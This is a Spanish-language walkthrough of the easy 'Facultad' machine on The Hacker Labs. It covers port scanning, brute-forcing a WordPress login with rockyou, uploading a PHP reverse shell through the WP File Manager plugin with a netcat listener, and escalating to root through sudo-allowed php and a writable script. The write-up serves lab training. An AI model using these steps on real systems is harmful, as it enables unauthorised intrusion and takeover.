

# Facultad - The Hacker Labs (Fácil)

Facultad es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Post-Explotación](#post-explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

## Reconocimiento

Lo primero es hacer ping a la IP para comprobar que hay conectividad con la máquina.


Hacemos un escaner con Nmap para ver que puertos hay abiertos.

`nmap -p- -vvv --open -T5 -Pn -n 10.0.2.20`

Vemos que estan abiertos el 22 y el 80.


## Enumeración

Hacemos un escaner a los puertos 22 y 80 para analizar los servicios que corren y sus versiones.

`nmap -p 22,80 -sVC -Pn -n 10.0.2.20 -oN scan`

En el puerto 22 corre un OpenSSH 9.2p1 y en el 80 un Apache httpd 2.4.62.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-05 12:25 CEST
Nmap scan report for 10.0.2.20
Host is up (0.0040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Asignatura: Administraci\xC3\xB3n de Sistemas - Ingenier\xC3\xADa Inform\xC3\xA1...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.57 seconds
```

Ejecuto el comando `whatweb` para ver si me da mas información sobre la página pero no veo nada relevante.


Si entramos a la página de primeras parece estatica.


Hacemos fuzzing con `ffuf` para ver si hay algún directorio oculto.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php -u "http://10.0.2.20/FUZZ"
```

Hay un directoiro /education


Si accedemos podemos ver una página wordpress.


Ejecutamos `wpscan` para analizar la página wordpress y podemos ver que hay un plugin wp-file-manager el cual de momento no podemos usar porque no estamos autenticados. Por lo que hay que buscar un usuario para hacer un ataque por fuerza bruta.

`wpscan --url http://10.0.2.20/education/ --plugins-detection aggressive`


Abro el articulo hello world y redirige al dominio facultad.thl, por lo que lo meto en /etc/hosts. 

`echo '10.0.2.20    facultad.thl' >> /etc/hosts`

En el articulo hello world podemos ver que ha sido escrito por un usuario "Facultad"


Con `wpscan` ejecuto el ataque por fuerza bruta con el usuario "Facultad"

```
wpscan --url http://10.0.2.20/education/ -U 'facultad,Facultad' -P /usr/share/wordlists/rockyou.txt
```

Consigo las credenciales.


`facultad:asdfghjkl`

Me meto en la página de login http://facultad.thl/education/wp-login.php y consigo acceso.

En el panel izquierdo podemos ver el Plugin WP File Manager.


## Explotación

Creamos un archivo shell.php y pegamos el codigo de [Pentest Monkey PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), Poniendo nuestra ip y el puerto por el que queremos escuchar.

`nvim shell.php`


Subimos el archivo shell.php con el plugin WP File Manager.



Escuchamos por el puerto 4444 y hacemos curl a http://facultad.thl/education/shell.php

`nc -lvnp 4444`

`curl http://facultad.thl/education/shell.php`

## Post-Explotación

```
script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

## Escalada de privilegios

Con `sudo -l` podemos ver que podemos ejecutar php con el usuario gabri.


Ejecutamos este comando y conseguimos una shell con el usuario gabri.

`sudo -u gabri /usr/bin/php -r "system('/bin/bash');"`


Despues buscamos archivos de los que el usuario gabri sea dueño.

```
find / -user gabri 2>/dev/null 1>files && head files
```

Dentro de /var/mail/gabri encontramos un archivo `.password_vivian.bf` el cual esta encripado en Brain Fuck.


Si lo desencriptamos nos sale esta contraseña.


Escribimos su vivian, pegamos la contraseña y ya somos usuario vivian.


Dentro de su home esta el user.txt.


Con `sudo -l` podemos ver que podemos ejecutar el script `/opt/vivian/script.sh`


Escribimos /bin/bash dentro de ese archivo y lo ejecutamos con sudo.

`echo '/bin/bash' >> /opt/vivian/script.sh`

Ya somos root.


Dentro de /root esta el root.txt.

